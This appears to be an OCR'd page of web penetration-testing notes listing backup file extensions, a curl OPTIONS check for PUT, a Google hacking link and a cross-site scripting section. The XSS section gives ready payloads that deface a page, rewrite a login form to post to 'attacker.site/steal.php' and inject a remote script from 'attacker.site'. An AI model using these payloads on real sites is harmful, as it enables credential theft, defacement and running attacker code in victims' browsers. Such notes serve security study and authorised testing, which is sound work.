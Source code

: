 
#### Enumerating Resources

**Crawling with Burp Suite**

**Finding Hidden Data**
```
# List of Backup file extensions
1. bak
2. bac
3. old
4. 000
5. ~
6. 01
7. _bak
8. 001
9. inc
10. Xxx


# On ASP.net based framework .inc is used. 


# Configuration Files Source Code View Examples
1. configuration.php.bak
2. configuration.php.old
3. ...



# Check Availability of PUT request
> curl -X OPTIONS domain.com


# Guess writable folder to use PUT method include folders where user supplied files are stored.

``` 


**Google Hacking**
```
https://www.exploit-db.com/google-hacking-database

``` 


## Cross Site Scripting

```
# Change Page Content
<script>document.body.innerHTML="<h1>HACKED</h1>";</script>


# XSS Phishing on Login Page
<script>document.form[0].action="htpps://attacker.site/steal.php";</script>


# Create Element with Remote JS File
> var s = document.createElement('SCRIPT');
> s.src = '//attacker.site/alert.js';
> document.body.appendChild(s);
```
